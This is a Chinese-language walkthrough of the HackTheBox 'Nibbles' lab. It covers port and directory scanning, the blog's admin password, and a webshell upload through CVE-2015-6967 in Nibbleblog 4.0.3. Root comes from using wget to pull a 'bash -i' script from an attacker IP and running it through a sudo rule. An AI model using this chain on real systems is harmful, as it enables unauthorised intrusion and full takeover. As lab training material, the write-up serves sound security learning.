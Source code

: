 # Nibbles

## 信息收集

nmap收一下信息：

```
─$ sudo nmap -sV 10.10.10.75        
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-25 02:16 CDT
Nmap scan report for 10.10.10.75
Host is up (0.40s latency).
Not shown: 997 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.11 seconds
```

大概率还是web页面的突破口，收集一下信息。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-25T07-20-02.190Z.png)

```
└─$ sudo python3 dirsearch.py -u 10.10.10.75                     130 ⨯

  _|. _ _  _  _  _ _|_    v0.4.2.8                                     
 (_||| _) (/_(_|| (_| )                                                
                                                                       
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11374

Output File: /home/tsunamori/L/tools/dirsearch/reports/_10.10.10.75/_22-08-25_02-21-58.txt

Target: http://10.10.10.75/

[02:21:58] Starting:                                                   
[02:22:13] 403 -  297B  - /.ht_wsr.txt
[02:22:13] 403 -  300B  - /.htaccess.bak1
[02:22:13] 403 -  302B  - /.htaccess.sample
[02:22:13] 403 -  300B  - /.htaccess.orig
[02:22:13] 403 -  300B  - /.htaccess_orig
[02:22:13] 403 -  301B  - /.htaccess_extra
[02:22:13] 403 -  300B  - /.htaccess.save
[02:22:13] 403 -  298B  - /.htaccess_sc
[02:22:13] 403 -  298B  - /.htaccessBAK
[02:22:13] 403 -  298B  - /.htaccessOLD
[02:22:13] 403 -  299B  - /.htaccessOLD2
[02:22:13] 403 -  290B  - /.htm
[02:22:13] 403 -  291B  - /.html
[02:22:13] 403 -  300B  - /.htpasswd_test
[02:22:13] 403 -  296B  - /.htpasswds
[02:22:13] 403 -  297B  - /.httr-oauth
[02:22:17] 403 -  290B  - /.php
[02:22:17] 403 -  291B  - /.php3
[02:24:05] 403 -  300B  - /server-status/
[02:24:05] 403 -  299B  - /server-status
```

![image](../../%E5%9B%BE%E5%BA%8A/Screenshot_2022-08-25_02-44-49.png)

目录并没有发现什么有意思的东西，但是查看源码时看到了提示，访问/nibbleblog/。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-25T07-47-25.417Z.png)

```
└─$ sudo python3 dirsearch.py -u 10.10.10.75/nibbleblog/
[sudo] password for tsunamori: 

  _|. _ _  _  _  _ _|_    v0.4.2.8                                     
 (_||| _) (/_(_|| (_| )                                                
                                                                       
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11374

Output File: /home/tsunamori/L/tools/dirsearch/reports/_10.10.10.75/_nibbleblog__22-08-25_20-59-56.txt

Target: http://10.10.10.75/

[20:59:56] Starting: nibbleblog/                                       
[21:00:10] 403 -  308B  - /nibbleblog/.ht_wsr.txt
[21:00:10] 403 -  311B  - /nibbleblog/.htaccess.bak1
[21:00:10] 403 -  313B  - /nibbleblog/.htaccess.sample
[21:00:10] 403 -  311B  - /nibbleblog/.htaccess.orig
[21:00:10] 403 -  311B  - /nibbleblog/.htaccess_orig
[21:00:10] 403 -  311B  - /nibbleblog/.htaccess.save
[21:00:10] 403 -  312B  - /nibbleblog/.htaccess_extra
[21:00:10] 403 -  309B  - /nibbleblog/.htaccess_sc
[21:00:10] 403 -  309B  - /nibbleblog/.htaccessOLD
[21:00:10] 403 -  309B  - /nibbleblog/.htaccessBAK
[21:00:10] 403 -  310B  - /nibbleblog/.htaccessOLD2
[21:00:10] 403 -  301B  - /nibbleblog/.htm
[21:00:10] 403 -  302B  - /nibbleblog/.html
[21:00:10] 403 -  311B  - /nibbleblog/.htpasswd_test
[21:00:10] 403 -  307B  - /nibbleblog/.htpasswds
[21:00:10] 403 -  308B  - /nibbleblog/.httr-oauth
[21:00:14] 403 -  301B  - /nibbleblog/.php
[21:00:14] 403 -  302B  - /nibbleblog/.php3
[21:00:28] 301 -  321B  - /nibbleblog/admin  ->  http://10.10.10.75/nibbleblog/admin/
[21:00:29] 200 -    1KB - /nibbleblog/admin.php
[21:00:29] 200 -    2KB - /nibbleblog/admin/
[21:00:31] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://10.10.10.75/nibbleblog/admin/js/tinymce/
[21:00:31] 200 -    2KB - /nibbleblog/admin/js/tinymce/
[21:01:00] 301 -  323B  - /nibbleblog/content  ->  http://10.10.10.75/nibbleblog/content/
[21:01:01] 200 -    1KB - /nibbleblog/content/
[21:01:01] 200 -    1KB - /nibbleblog/COPYRIGHT.txt
[21:01:22] 200 -   78B  - /nibbleblog/install.php
[21:01:22] 200 -   78B  - /nibbleblog/install.php?profile=default
[21:01:25] 301 -  325B  - /nibbleblog/languages  ->  http://10.10.10.75/nibbleblog/languages/
[21:01:27] 200 -   34KB - /nibbleblog/LICENSE.txt
[21:01:45] 301 -  323B  - /nibbleblog/plugins  ->  http://10.10.10.75/nibbleblog/plugins/
[21:01:46] 200 -    4KB - /nibbleblog/plugins/
[21:01:50] 200 -    5KB - /nibbleblog/README
[21:02:05] 301 -  322B  - /nibbleblog/themes  ->  http://10.10.10.75/nibbleblog/themes/
[21:02:05] 200 -    2KB - /nibbleblog/themes/
[21:02:07] 200 -    2KB - /nibbleblog/update.php
```
这里访问/nibbleblog/admin.php

![image](../../%E5%9B%BE%E5%BA%8A/Screenshot_2022-08-26_02-55-13.png)

这里其实是个比较伤的点，帐号可以从之前的目录里找到，但密码实际上在我自己查找和看WP里都没找到，搜索该模板的默认帐密也找不到（而且后续去看WP复盘，登录口有login blacklist配置，需要手工猜解密码）。

帐密是admin/nipples。估计这个点也是为什么本box评分比较低的原因之一。

登录进去就要找模板的通用漏洞来提取，找到15年有一个CVE。

从之前搜的目录README里，也可以确认靶机使用的就是存在漏洞的4.0.3版本。

![image](../../%E5%9B%BE%E5%BA%8A/Screenshot_2022-08-26_00-42-20.png)

## 漏洞利用

根据[CVE-2015-6967 WP](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)来做相应利用。

上传一个shell文件，这里直接传了一个冰蝎马。

![image](../../%E5%9B%BE%E5%BA%8A/Screenshot_2022-08-26_03-08-15.png)

shell地址都是统一的 `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`

可以直接拿到user.txt。

接下来就是提权，这里还是做个[反弹shell](https://blog.csdn.net/weixin_45745344/article/details/112321742)比较合适（这里就是给自己挖了个坑，如果直接传一个反弹shell上去，nc监听就完事了，用不上msf，后来也确实换成普通的反弹shell脚本了）。

![image](../../%E5%9B%BE%E5%BA%8A/Screenshot_2022-08-26_03-47-14.png)

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
/home/nibbler/personal/stuff/$ head monitor.sh
cd /home/nibbler/personal/stuff
/bin/sh: 3: cd: can't cd to /home/nibbler/personal/stuff
```
然而这个位置下是没有/personal/stuff/monitor.sh的，要自己新建。

建好之后，本地起http服务，新建一个monitor.sh，内容写 `bash -i`。（非root权限下执行bash -i就可以切换到root权限）

当然这里也可以在sh文件里[写入反弹shell的语句来执行](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html)。。。

```
$ wget 10.10.16.2/monitor.sh
--2022-08-26 05:29:17--  http://10.10.16.2/monitor.sh
Connecting to 10.10.16.2:80... failed: Connection refused.
$ wget 10.10.16.2/monitor.sh
--2022-08-26 05:31:38--  http://10.10.16.2/monitor.sh
Connecting to 10.10.16.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7 [text/x-sh]
Saving to: 'monitor.sh'

     0K                                                       100% 1.14M=0s

2022-08-26 05:31:39 (1.14 MB/s) - 'monitor.sh' saved [7/7]

$ chmod +x monitor.sh
$ ls -l
total 4
-rwxr-xr-x 1 nibbler nibbler 7 Aug 26 05:30 monitor.sh
$ sudo ./monitor.sh
bash: cannot set terminal process group (1368): Inappropriate ioctl for device
bash: no job control in this shell
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
```





